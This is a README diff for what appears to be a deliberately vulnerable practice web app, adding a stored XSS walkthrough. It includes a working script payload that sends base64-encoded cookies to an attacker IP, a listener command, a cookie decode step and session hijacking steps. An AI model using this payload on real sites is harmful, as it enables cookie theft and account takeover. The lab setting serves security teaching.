

Before and after one commit to Twentox/vulnerable-WebApp, a Markdown page: README.md, the part around the change. Shown at 86% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
adds Stored XSS solution

````diff
--- a/README.md
+++ b/README.md
@@ -79,6 +79,47 @@ ________________________________________________
 
 ### Stored XSS:
 ---
+>[!Tip]
+> Take a look at the contact form
+
+- Stored Cross-Site Scripting (XSS) occurs when user input is stored on the server and later displayed without proper sanitization
+- This allows attackers to inject JavaScript that executes in the browser of other users.
+
+- on the home page there is a contact form
+- above the contact-form is a message telling the user, that messages are usually reviewed within a minute
+- so we can assume that the message, that we are sending, gets stored in a database and gets displayed somewhere else on the website
+- so we could try `Stored XSS`
+- to test it, we can try to put `JavaScript`-code into one of the three input tags and sent it
+
+- one possible payload for this, would be this:
+```html
+<script>fetch('http://192.168.132.187:9000/?cookie=' + btoa(document.cookie));</script>
+```
+- so lets imagine a staff member is responsible for reviewing the messages that gets sent from the contact-form
+- the payload uses `fetch()` to send the victim's cookie to an attacker-controlled server
+- `btoa()` is used to Base64-encode the cookie
+
+- so first we have to start a `webserver`, to do this we can use `python`:
+```bash
+python3 -m http.server 9000
+```
+
+- now we can craft our message in the contact-form:
+![Stored_XSS_1](docs/images/Stored_XSS_1.png)
+- you personally have to change the `IP` to your own adress
+- now we have to wait one minute
+
+![Stored_XSS_2](docs/images/Stored_XSS_2.png)
+- as we can see we got an request with the `cookie` from an staff member
+- the `cookie` is currently `Base64` encoded, but we can decode it with:
+```bash
+echo "c2Vzc2lvbj1leUp0YjJSbElqb2lkVzV6WldOMWNtVWlMQ0p5YjJ4bElqb2ljM1JoWm1ZaWZRLmFkVVM4dy5GcFRteWdnbm9LX18xeTd3NWJTeEtHaXJFLVE=" | base64 -d
+```
+
+```bash
+session=<Redacted>
+```
+- now we can set this cookie in our browser and have priviliged access
 
 
 ### User Enumeration + Brute Force
````
